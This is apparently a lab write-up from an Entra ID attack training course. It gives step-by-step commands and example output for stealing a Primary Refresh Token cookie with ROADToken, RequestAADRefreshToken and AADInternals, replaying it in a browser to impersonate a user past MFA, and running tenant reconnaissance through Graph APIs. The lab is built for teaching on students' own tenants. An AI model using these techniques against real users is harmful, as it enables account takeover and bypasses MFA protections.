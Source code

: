 # Lab 3 - Token Attacks

### Prepare a victim user with high privileges:

1. RDP and login to the Win11 VM using the user `user1@YOURDOMAIN.onmicrosoft.com` (or your other assigned user in class)
2. run `dsregcmd /status` and make sure you don't have "invalid".. fields, and that you see `AzureAdPrt : YES`
   ![prt](prtexists.png)
3. Make sure you are verified:
   1. open Edge, login to myapps.microsoft.com and **set up MFA**
   2. go to Start -> Account Info and make sure you don't have any warning about not being verified, if you have then verify yourself.
      ![verify](verifyAccount.png)
4. if there's still an issue, restart the vm and login again

#

# Attacks

From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Win 11 VM

## 1. Steal-the-PRT-Cookie (a.k.a as "Pass-the-PRT" attack)

**Notes:** 
- This method will bypass MFA only if the user has **authenticated using MFA** in Windows (when logged in using WhFb) or afterwards when signed in to myapps.microsoft.com using MFA
- PRT Cookie can only be used once and its TTL is short



#### Option 1: Steal PRT Cookie using roadrecon tool

**Prep:**
Download from inside the Win11 VM [ROADToken.exe](https://github.com/shackcrack007/hybrid-attacks-course-template/raw/refs/heads/main/labs%20(for%20course%20sessions,%20not%20part%20of%20setup)/lab-3-tokens/ROADToken.exe)
<details>
    <summary><b>Hint</b></summary>
    
   1. Use roadrecon to get a nonce
   1. Use ROADToken with that nonce
</details>

<details>
    <summary><b>Solution</b></summary>

```powershell
# Get the nonce first
roadrecon auth --prt-init

# Get a new PRT Cookie
.\ROADtoken.exe <nonce>
```
Example: 
![roadtoken](roadtoken.png)

</details>

#### Option 2: Steal PRT Cookie using RequestAADRefreshToken.exe tool
Uses the MicrosoftAccountTokenProvider DLL to request a new PRT cookie.
Download and Run RequestAADRefreshToken.exe from this folder (directly from inside the VM), it will save the output on disk as well as print the tokens to the console.

**Prep:** Download from inside the Win11 VM [RequestAADRefreshToken.exe](https://github.com/shackcrack007/hybrid-attacks-course-template/raw/refs/heads/main/labs%20(for%20course%20sessions,%20not%20part%20of%20setup)/lab-3-tokens/RequestAADRefreshToken.exe)

<details>
    <summary><b>Solution</b></summary>

```powershell
.\RequestAADRefreshToken.exe <nonce>
```

Example: 
```
Requesting cookies for the following URIs: https://login.microsoftonline.com/
PID  : 37808

Uri: https://login.microsoftonline.com/
    Name      : x-ms-RefreshTokenCredential
    Flags     : 8256
    Data      : <...snip JWT...>; path=/; domain=login.microsoftonline.com; secure; httponly
    P3PHeader : CP="CAO DSP COR ADMa DEV CONo TELo CUR PSA PSD TAI IVDo OUR SAMi BUS DEM NAV STA UNI COM INT PHY ONL FIN PUR LOCi CNT"
```
</details>



#### Option 3: Steal PRT Cookie using AADInternals tool
Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:

<details>
    <summary><b>Solution</b></summary>
    
```powershell
Import-Module AADInternals -RequiredVersion "0.9.4"

# Get the PRToken
Get-AADIntUserPRTToken
```
</details>


### Once PRT Cookie is in your possession:

It's time to steal that user identity:

1. In incognito -> Clear your browser cookies and go to https://myapps.microsoft.com
2. F12 (Chrome dev tools) -> Application -> Cookies
3. Delete ALL cookies and then add one named `x-ms-RefreshTokenCredential` and set its value to the JSON Web Token (JWT) in the `Data` field from RequestAADRefreshToken.exe output
4. Refresh the page (or visit https://myapps.microsoft.com again) and you'll be logged it

- if it asks for a password, it means the PRT in the victim computer is invalid: you should restart and re-login and make sure you're authenticated to Windows properly (you account is active)
**See demo video [here](stealPrtCookie.mp4)**

# Next Step - Reconnaissance

```powershell
Import-Module AADInternals -RequiredVersion "0.9.4"
$prtToken = Get-AADIntUserPRTToken # get a new PRT Cookie if you used it already

# using the new PRT Cookie, get an access token
# method 1:
roadtx browserprtauth --prt-cookie $prtToken # this will automatically get new access token

# method 2:
$prtToken = Get-AADIntUserPRTToken
roadrecon auth -r aadgraph -c "1950a258-227b-4e31-a9cf-717495945fc2" --prt-cookie $prtToken

# method 3:
$prtToken = Get-AADIntUserPRTToken
$at = Get-Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
roadrecon auth --access-token $at # AT for aadgraph is needed

# Once you got an access token, look at it
type .roadtools_auth
type .roadtools_auth | roadtx describe

# start the recon on the tenant
roadrecon gather

roadrecon gui


# more info: search for the client_id here to see to which app (==client) we used to ask AT for: https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

```

#### Get comfortable: Continue your exploration via API...

You can start with:

```powershell
$prtToken = Get-AADIntUserPRTToken
$at = Get-AADIntAccessTokenForMSGraph -PRTToken $prtToken
$secureAt = ConvertTo-SecureString -String $at -AsPlainText -Force
Connect-MgGraph -AccessToken $secureAt
Get-MgUser

# Or via AAD Graph:
$client_id = "1b730954-1685-4b74-9bfd-dac224a7b894"
$prtToken = Get-AADIntUserPRTToken
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id, see here for more https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

Get-AzureADUser
```
### Feeling comfortable? go to the next lab!